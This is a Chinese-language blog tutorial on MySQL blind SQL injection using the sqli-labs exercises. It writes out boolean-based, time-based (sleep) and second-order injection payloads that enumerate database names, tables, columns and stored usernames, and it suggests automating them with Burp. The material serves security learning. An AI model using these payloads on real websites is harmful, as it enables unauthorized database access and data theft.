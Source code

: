 # 07-mysql盲注




# SQL测试-基于 布尔,延时 盲注

>场景：无回显，并且没有报错和其他显示
>能用布尔就不用延迟

**几个相关函数：**
`regexp`       regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
`if`       if(条件,5,0) 条件成立 返回5 反之 返回0
`sleep`    sleep(5) SQL语句延时执行5秒
`mid`    mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
`substr`   substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
`left`    left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
`length`    length(database())=8，判断数据库database()名的长度
`ord`=`ascii`     ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
`IFNULL()`  函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
`CAST()`和`CONVERT()`函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：`CAST(value as type);`        `CONVERT(value, type);`

#### 基于布尔(逻辑)盲注

Less-5
用burp批量跑
**0x01 获取`数据库`名操作Payload：**     left()
获取数据库名长度值
`?id=1' and length(database())=8 %23`

获取数据库名第一位值
`?id=1' and left(database(),1)='s' %23`     等于
`?id=1' and left(database(),1)>'a' %23`     大于

获取数据库名第二位值
`?id=1' and left(database(),2) > 'sa' %23`
`?id=1' and left(database(),2) = 'se' %23`



**0x02 获取`表名`操作Payload：**     ascii(substr())
获取表名第一个第一位的值（下面这个是获取表名中第一个表，的第二位的值）
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23`
获取表名第一个第二位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=101 %23`
获取表名第二个第一位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101 %23`

用burp批量跑(最后一种模式，设置两个变量  limit $0, 1), $1,1))=115)   



**0x03 获取`列名`操作Payload：**    regxp
获取列名regexp 查询users表第一个列名是否有us...列名
`?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp '^us[a-z]' limit 0,1)--+`



**0x04 获取`数据`操作Payload：**    ord(mid())
获取数据 security.users表中username列名的第一个第一位
`?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+`
(获取username中的第一行的第一个字符的ascii，与68进行比较)




#### 基于延时盲注

**0x01 获取数据库名操作Payload：**     if(条件，成立返回值，不成立的返回值)
获取数据库名第一个第一位
`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+`
可以把sleep放外面：and sleep(if 'x'='yx, 5, 0)

**0x02 获取表名操作Payload：**
获取列名第一个第一位
`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),1)--+`

>后续参考：https://www.cnblogs.com/xishaonian/p/6113965.html

-----



## SQL二次注入测试

**案例测试**：
less-24 及实际举例
25-30关卡好多是二次注入

> 自己练习

**应用范围：**
我们注册一个用户后，然后进入用户中心，对应的url地址： xxx.php?user=xiaodi
如果把注册的用户名改为: `xx' union select 1,2,3 -- `  
总之: 将注入语句让web写入到数据库中，web在调用数据库中数据查询时，就触发了...



###### 原理

<img src="http://image.xpshuai.cn/%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5.png"></img>



#### mybatis以及预编译如何防止SQL注入


>参考：https://www.cnblogs.com/haojun/p/10682407.html https://www.cnblogs.com/yangzailu/p/11381765.html

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/07-mysql%E7%9B%B2%E6%B3%A8/  

